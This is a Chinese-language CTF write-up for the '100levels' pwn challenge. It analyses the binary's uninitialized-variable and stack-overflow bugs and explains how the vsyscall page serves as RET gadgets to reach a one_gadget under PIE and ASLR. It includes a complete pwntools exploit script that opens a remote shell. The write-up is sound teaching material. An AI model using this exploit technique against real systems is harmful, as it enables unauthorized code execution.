

## XMan pwn 100levels

**学习**：

* vsyscall in pwn https://www.anquanke.com/post/id/177520

* ASLR机制及绕过策略 https://www.cnblogs.com/p4nda/p/7493880.html https://www.cnblogs.com/wangaohui/p/7122653.html

* 解题思路 https://blog.csdn.net/qq_29343201/article/details/77644936

* 由栈上位置未初始化造成的问题

* onr_gadget https://github.com/david942j/one_gadget

* 未初始化的变量使用允许使用来自vsyscall页面和魔术libc地址的小工具可靠地利用NX和PIE启用的二进制文件上的经典堆栈溢出。

  https://nandynarwhals.org/hitbgsec2017-1000levels/

正确wp：

[https://sp4rta.github.io/2019/04/18/2017%203rd-BCTF%20100levels/](https://sp4rta.github.io/2019/04/18/2017 3rd-BCTF 100levels/)


### 题目分析

拿到binary首先检查一下开了NX和PIE保护，这里猜测应该是bypass pie

```
spr4ta@pwn:/media/psf/pwn/XCTF/BCTF-2017/1000levevls$ checksec 100levels[*] '/media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels'    Arch:     amd64-64-little    RELRO:    Partial RELRO    Stack:    No canary found    NX:       NX enabled    PIE:      PIE enabled
```

接下来仔细分析一下，main函数的逻辑很简单，当我们输入1的时候调用go函数，输入2的时候调用hint函数，输入3跳出while程序结束程序

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3){  
    int choice; // eax  
    sub_DDC();  
    logo();  
    while ( 1 )  {    
        while ( 1 )    {     
            menu();      
            choice = read_n();      
            if ( choice != 2 )       
                break;     
            hint();    
        }   
        if ( choice == 3 )     
            break;    
        if ( choice == 1 )     
            go();    
        else      
            puts("Wrong input"); 
    }  
    sub_D92();  
    return 0LL;
}
```

go()： 选择一个level，然后会再问你一次level，输入之后，回答两次level相加这么多次的问题，就是a * b类型，回答完成之后输出你在多少秒内完成了多少level 

总结来说，首先是问level，如果小于等于0了，输出coward，然后再问一次level，这次无论大小，直接加在第一次问的level上。 这里就有一个洞了，如果第一次给出的值小于等于0的话，这里的v5是没有初始化的，即没有赋初值的，此时v5就是脏数据了。另外还有一个问题，就是第二次问level，v3并没有判断是不是小于0。

之后进入level，来生成问题判断答案是否正确。

level的实现使用了递归，在read answer的时候读取了0x400个字符，明显的栈溢出，不过这里需要注意，这里的栈溢出是没有办法使用partial write的，那个循环处理了partial write的情况

hint(): 如果unk_20208C为1.则提示system函数的地址。unk_20208C位于bss段，但因为具有PIE保护，所以BSS段的地址也是随机的，而且还没找到可以任意的漏洞


看一下汇编：虽然unk_20208C标识为0，但栈内仍然有这个system的地址


```assembly
.text:0000000000000D06 ; __unwind {
.text:0000000000000D06                 push    rbp
.text:0000000000000D07                 mov     rbp, rsp
.text:0000000000000D0A                 sub     rsp, 110h
.text:0000000000000D11                 mov     rax, cs:system_ptr  ; rax = system addr
.text:0000000000000D18                 mov     [rbp+var_110], rax	 ; rbp+var_110 = rax
.text:0000000000000D1F                 lea     rax, unk_20208C     ; rax 指向bss段某个变量
.text:0000000000000D26                 mov     eax, [rax]			; eax = 上述变量的值
.text:0000000000000D28                 test    eax, eax            ; 逻辑与运算
.text:0000000000000D2A                 jz      short loc_D57		; eax为0则跳转到loc_D57
.text:0000000000000D2C                 mov     rax, [rbp+var_110]  ; 否则输出system函数地址
.text:0000000000000D33                 lea     rdx, [rbp+var_110]
.text:0000000000000D3A                 lea     rcx, [rdx+8]
.text:0000000000000D3E                 mov     rdx, rax
.text:0000000000000D41                 lea     rsi, aHintP     ; "Hint: %p\n"
.text:0000000000000D48                 mov     rdi, rcx        ; s
.text:0000000000000D4B                 mov     eax, 0
.text:0000000000000D50                 call    _sprintf
.text:0000000000000D55                 jmp     short loc_D7C
.text:0000000000000D57 ; --------------------------------------------------------------
.text:0000000000000D57
.text:0000000000000D57 loc_D57:                                ; CODE XREF: hint+24↑j
.text:0000000000000D57                 lea     rax, [rbp+var_110]
.text:0000000000000D5E                 add     rax, 8
.text:0000000000000D62                 mov     rsi, 4E204E5750204F4Eh
.text:0000000000000D6C                 mov     [rax], rsi
.text:0000000000000D6F                 mov     dword ptr [rax+8], 5546204Fh
.text:0000000000000D76                 mov     word ptr [rax+0Ch], 4Eh ; 'N'
.text:0000000000000D7C
.text:0000000000000D7C loc_D7C:                                ; CODE XREF: hint+4F↑j
.text:0000000000000D7C                 lea     rax, [rbp+var_110]
.text:0000000000000D83                 add     rax, 8
.text:0000000000000D87                 mov     rdi, rax        ; s
.text:0000000000000D8A                 call    _puts
.text:0000000000000D8F                 nop
.text:0000000000000D90                 leave
.text:0000000000000D91                 retn
.text:0000000000000D91 ; } // starts at D06
.text:0000000000000D91 hint            endp
```

#### 题目分析总结：

程序分析结束，找到溢出漏洞一处，思路就可以是利用shellcode或者rop技术来执行命令。

因为有NX保护存在所以只能用ROP来利用漏洞，对rop的长度没有限制，但是，由于ASLR和PIE的存在导致无法直接获得system函数的地址，幸亏有hint这样一个函数。

从上文可以看到，在hint函数中，system的地址防止在rbp-110这样的位置：


而我们找到的脏数据使用v5恰巧也是是定义在这个位置


因此，当第一次输入为0时，v5就是system的地址。通过这个地址，可以爆破得到system的地址。

想法是这样的：

猜测system第地址为i时，如果输入-i，当i>system的地址时，得到的v6<0会输出coward字样，按位猜解从高位到低位就可以顺次找到各位的system值。


可以先将system地址减去成one_gadget地址，先看一下相对偏移

When playing ctf pwn challenges we usually need the one-gadget RCE (remote code execution), which leads to call `execve('/bin/sh', NULL, NULL)`

(也可以由libc可以找到libc中“/bin/sh”的地址。最后使用ROPgadget找到一个在libc中“pop rdi  ， ret”作为传参gadget就可以利用栈溢出漏洞，来使用rop进行命令执行)

```python
spr4ta@pwn:/media/psf/pwn/XCTF/BCTF-2017/1000levevls$ one_gadget libc.so 
0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xef6c4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf0567 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

from pwn import *
In [3]: elf = ELF('./libc.so')
[*] '/media/psf/pwn/XCTF/BCTF-2017/1000levevls/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

In [4]: elf.symbols['system']
Out[4]: 283536

In [5]: system_offset = hex(elf.symbols['system'])

In [6]: one_gadget = 0x4526a

In [7]: system_offset
Out[7]: '0x45390'

In [10]: int(system_offset,16) - one_gadget
Out[10]: 294
```

相对偏移是294，所以v3应该输入-294

第一次`level()`调用时的初始缓冲区溢出将不允许我们使用我们放在堆栈上的libc地址。这是因为由于`level()`函数是递归的，函数的第1000次调用将是我们遇到的第一个函数。因为存在递归，为了维持栈平衡我们要在最后一关即将返回的时候控制返回地址。所以我们只是玩游戏999次，直到我们一直走回调用堆栈。这会将我们的溢出放入libc地址的范围内。

question函数的栈布局如下(base ebp)

```assembly
-0000000000000030 buf             dq ?
-0000000000000028 var_28          dq ?
-0000000000000020 var_20          dq ?
-0000000000000018 var_18          dq ?
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C var_C           dd ?
-0000000000000008 var_8           dd ?
-0000000000000004 var_4           dd ?
+0000000000000000  s              db 8 dup(?)    ; ebp
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

首先，现在one_gadgets的值在栈中 esp+10h的位置，由于开启了PIE可以用vsyscall来做nop

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels
    0x555555755000     0x555555756000 r--p     1000 1000   /media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels
    0x555555756000     0x555555757000 rw-p     1000 2000   /media/psf/pwn/XCTF/BCTF-2017/1000levevls/100levels
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7fdb000     0x7ffff7fde000 rw-p     3000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
pwndbg> x /6i 0xffffffffff600000
   0xffffffffff600000:	mov    rax,0x60
   0xffffffffff600007:	syscall 
   0xffffffffff600009:	ret    
   0xffffffffff60000a:	int3
```

The vsyscall page contains some interesting gadgets that we can use to just `RET` and walk up the stack.

```
gdb-peda$ x/32i 0xffffffffff600400
   0xffffffffff600400:    mov    rax,0xc9 #gettimeofday函数，反正ret就可以了
   0xffffffffff600407:    syscall
   0xffffffffff600409:    ret
   0xffffffffff60040a:    int3
   0xffffffffff60040b:    int3
```

Note that we have to jump to `0xffffffffff600400` and not `0xffffffffff600409` because these instructions are not actually executed but [emulated](https://github.com/torvalds/linux/commit/5cec93c216db77c45f7ce970d46283bcb1933884). This means, in practical terms, that we cannot jump in the middle because the Linux kernel does not know how to handle it and the program will simply crash.


#### 漏洞分析

根据刚刚对题目的分析，其实漏洞的点已经找到了： 
1. go函数中的两次level询问，第一次如果小于等于0会导致本应该记录第一次询问的level结果的变量未初始化，第二次询问没有判断是否小于0 
2. level函数存在栈溢出 
3. hint函数始终会将system的值放在栈上

这么看两个漏洞有关联，但是还没办法结合，但是巧合的是，system在栈上的位置刚好和第一次询问记录level的v4变量位置重合。那么事情就好办了。

#### 利用思路

1. 使用hint，将system放在栈上
2. 进入go，第一次给出小于等于0的值，使得v4=system的地址。
3. 第二次询问，填0，可以导致最后可以进入system，但是参数不太好处理，所以可以使用one_gadget，那么第二次询问又不会判断大小，直接给出one_gadget和system地址的偏移，这样level值通过想加就变成了one_gadget的地址
4. 完成99次回答
5. 最后一次回答利用栈溢出，返回地址处填入vsyscall的gettimeofday(其实就是vsyscall的最开始位置)地址，填入3次（这里的三次是调试时候计算得出的），使得从返回地址位置一直到保存在栈上的one_gadget之间的位置全部填为gettimeofday
6. 取one_gadget作为返回值。触发，搞定


### exp

```python
#!/usr/bin/env python
from pwn import *
context.log_level = 'debug'

# p = process('./100levels')
p = remote('111.198.29.45',32133)
elf = ELF('./libc.so')

one_gadget = 0x4526a
system_offset = elf.symbols['system']
vsyscall_addr = 0xffffffffff600000

# hint()
p.recvuntil('Choice:\n')
p.sendline('2')
#gdb.attach(p)
p.recvuntil('FUN\n')

# go()
p.recvuntil('Choice:\n')
p.sendline('1')
#gdb.attach(p)
p.recvuntil('How many levels?\n')
p.sendline('0')
p.recvuntil('Any more?\n')
p.sendline(str(one_gadget-system_offset))

# question
for i in range(99):
    p.recvuntil("Question: ")
    a = int(p.recvuntil(" ")[:-1])
    p.recvuntil("* ")
    b = int(p.recvuntil(" ")[:-1])
    p.sendlineafter("Answer:", str(a * b))

# payload

payload = 'A' * 0x30 #buf大小
payload += 'B' * 8    # fake ebp
payload += p64(vsyscall_addr) * 3 #从返回地址位置一直到保存在栈上的one_gadget之间的位置全部填上
# gdb.attach(p)
p.sendafter("Answer:",payload)
# p.sendline('ls')

p.interactive()
```


#### 可以不选择爆破system地址：因为此题只计算100次，如果可以计算1000次可以选择爆破

**aslr的作用原理**：

 函数加载与mmap相同 

**mmap随机的位数由mmap_rnd_bits表示，在64位下是28比特，经过计算在64位平台下mmap的基地址是：page_align(0x7ffbf8000000-rand)，而其中的rand在是28比特的数字左移12位。当mmap的基地址确定后，**在各个系统中，程序运行起来时各个模块（不包括pie程序的主模块、但包括各个动态链接库）与mmap的基地址的偏移是固定的，因此这些模块加载地址的随机化也在28比特。

因此rand是 xxxxxxx000这样的，而使用了减法，因此影响了system地址中间8*4的地址值，故简单的可爆破8*4bit  

而当爆破某位时，当小于system地址时，需要进行1000次的运算，在运算中由于存在栈溢出漏洞，可以覆盖预期结果的地址，因此很简单。 

 **因为存在递归，为了维持栈平衡我们要在最后一关即将返回的时候控制返回地址**

当运算999次后，会停止运算并退出，如果退出，再次进入时就失效了，因此必须通过溢出覆盖返回地址，强行使程序恢复到程序开头。

栈地址中恰巧存在start函数地址，因此可以使用它来返回函数的初始状态。

但由于程序开启了PIE保护，无法从elf文件中直接跳转至main函数或寻找gadget，因此想到使用vsyscall来充当gadget（这部分在系统中地址始终不变。）


## vdso/vsyscall

vsyscall是什么呢？

通过查阅资料得知，vsyscall是第一种也是最古老的一种用于加快系统调用的机制，工作原理十分简单，许多硬件上的操作都会被包装成内核函数，然后提供一个接口，供用户层代码调用，这个接口就是我们常用的int 0x80和syscall+调用号。

当通过这个接口来调用时，由于需要进入到内核去处理，因此为了保证数据的完整性，需要在进入内核之前把寄存器的状态保存好，然后进入到内核状态运行内核函数，当内核函数执行完的时候会将返回结果放到相应的寄存器和内存中，然后再对寄存器进行恢复，转换到用户层模式。

这一过程需要消耗一定的性能，对于某些经常被调用的系统函数来说，肯定会造成很大的内存浪费，因此，系统把几个常用的内核调用从内核中映射到用户层空间中，从而引入了vsyscall

通过命令“cat /proc/self/maps| grep vsyscall”查看，发现vsyscall地址是不变的

[](https://s2.ax1x.com/2019/04/30/EGujnf.png)

使用gdb把vsyscall从内存中dump下来，拖到IDA中分析

 

[](https://s2.ax1x.com/2019/04/30/EGuxHS.png)

 

可以看到里面有三个系统调用，根据对应表得出这三个系统调用分别是__NR_gettimeofday、__NR*time、*_NR_getcpu

```
#define __NR_gettimeofday 96
#define __NR_time 201
#define __NR_getcpu 309
```

这三个都是系统调用，并且也都是通过syscall来实现的，这就意味着我们有了一个可控的syscall

 

拿一道CTF真题来做为例子（1000levels）：

程序具体漏洞这里不再过多的解释，只写涉及到利用vsyscall的步骤

当我们直接调用vsyscall中的syscall时，会提示段错误，这是因为vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错

所以，我们可以直接利用的地址是0xffffffffff600000、0xffffffffff600400、 0xffffffffff600800

程序开启了PIE，无法从该程序中直接跳转到main函数或者其他地址，因此可以使用vsyscall来充当gadget，使用它的原因也是因为它在内存中的地址是不变的

vdso好处是其中的指令可以任意执行，不需要从入口开始，坏处是它的地址是随机化的，如果要利用它，就需要爆破它的地址，在64位下需要爆破的位数很多，但是在32位下需要爆破的字节数就很少。


**关于vsyscall**

vsyscall是以前linux内核使用的用来处理syscall的一个解决方案，后来被废弃，由vdso方案代替，但是这个方案由于历史原因保留了下来。

vsyscall的特点是在于其地址是固定的，所以可以用来在PIE+ASLR的情况中进行一定的利用。不过他的利用也有一些限制，vsyscall有一些固定的entry入口，内核在处理的时候会判断一下，如果执行的部分在vsyscall内，但是不是从entry入口开始的，会直接seg fault掉。

从这道题中可以看出来，vsyscall有这么一个用法，由于vsyscall直接进行syscall，并没有利用栈空间，所以在处理这种有栈溢出，但是由于PIE没有别的地址可以用，而栈上又有某个有用的地址的时候，可以通过vsyscall构造一个rop链，这个rop链没有别的作用，就是用来ret，每次ret都会消耗掉一个地址，这样就可以逐渐去贴近想要的那个地址，最后成功ret到相应的位置。
